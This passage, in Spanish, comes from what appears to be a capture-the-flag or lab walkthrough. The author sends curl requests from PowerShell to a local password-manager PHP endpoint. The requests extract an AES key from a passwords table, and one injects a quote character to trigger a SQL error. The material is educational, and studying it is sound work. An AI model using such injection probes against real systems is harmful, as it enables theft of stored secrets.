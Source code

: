 Exacto. Pero como ya vimos, esta localmente activo, asi que cambiémosla por `localhost`:

```powershell
PS C:\Development> curl "http://localhost:1234/index.php?method=select&username=administrator&table=passwords"      
curl : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the 
UseBasicParsing parameter and try again.
...
```

Nos indica que debemos agregarle el parámetro `UseBasicParsing` por unos temas de configuración con `Internet Explorer`:

```powershell
PS C:\Development> curl "http://localhost:1234/index.php?method=select&username=administrator&table=passwords" -UseBasicParsing

StatusCode        : 200
StatusDescription : OK
Content           : selectarray(1) {
                      [0]=>
                      array(1) {
                        ["aes_key"]=>
                        string(16) "k19D193j.<19391("
                      }
                    }

RawContent        : HTTP/1.1 200 OK
                    Content-Length: 96
                    Content-Type: text/html; charset=UTF-8
                    Date: Sat, 13 Mar 2021 04:01:30 GMT
                    Server: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1
                    X-Powered-By: PHP/8.0.1

                    sel...
Forms             :
Headers           : {[Content-Length, 96], [Content-Type, text/html; charset=UTF-8], [Date, Sat, 13 Mar 2021 04:01:30 GMT], [Server, Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1]...}
Images            : {}
InputFields       : {}
Links             : {}
ParsedHtml        :
RawContentLength  : 96

```

Ahora sí, tenemos una `aes_key`, una cabecera y nada más...

Si provocamos un error obtenemos:

```powershell
PS C:\Development> curl "http://localhost:1234/index.php?method=select&username=administrator&table='" -UseBasicParsing        

StatusCode        : 200
StatusDescription : OK
Content           : select<br />
                    <b>Fatal error</b>:  Uncaught TypeError: mysqli_fetch_all(): Argument #1 ($result) must be of type mysqli_result, bool given in
                    C:\Users\Administrator\Desktop\passwordManager\htdocs\index...
RawContent        : HTTP/1.1 200 OK
...
```
